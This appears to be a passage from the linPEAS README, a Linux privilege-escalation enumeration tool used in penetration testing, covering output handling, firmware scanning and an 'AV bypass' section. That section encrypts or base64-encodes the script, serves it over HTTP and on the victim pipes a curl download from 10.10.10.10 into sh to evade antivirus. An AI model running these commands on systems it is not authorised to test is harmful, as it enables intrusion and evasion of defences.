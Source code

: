 ```bash
# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```

```bash
# Use a linpeas binary
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

## AV bypass
```bash
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

## Firmware Analysis
If you have a **firmware** and you want to **analyze it with linpeas** to **search for passwords or bad configured permissions** you have 2 main options.

- If you **can emulate** the firmware, just run linpeas inside of it:
```bash
cp /path/to/linpeas.sh /mnt/linpeas.sh
chroot /mnt #Supposing you have mounted the firmware FS in /mnt
bash /linpeas.sh -o software_information,interesting_files,api_keys_regex
```

- If you **cannot emulate** the firmware, use the `-f </path/to/folder` param:
```bash
# Point to the folder containing the files you want to analyze
bash /path/to/linpeas.sh -f /path/to/folder
```

## Basic Information

The goal of this script is to search for possible **Privilege Escalation Paths** (tested in Debian, CentOS, FreeBSD, OpenBSD and MacOS).

This script doesn't have any dependency.

It uses **/bin/sh** syntax, so can run in anything supporting `sh` (and the binaries and parameters used).
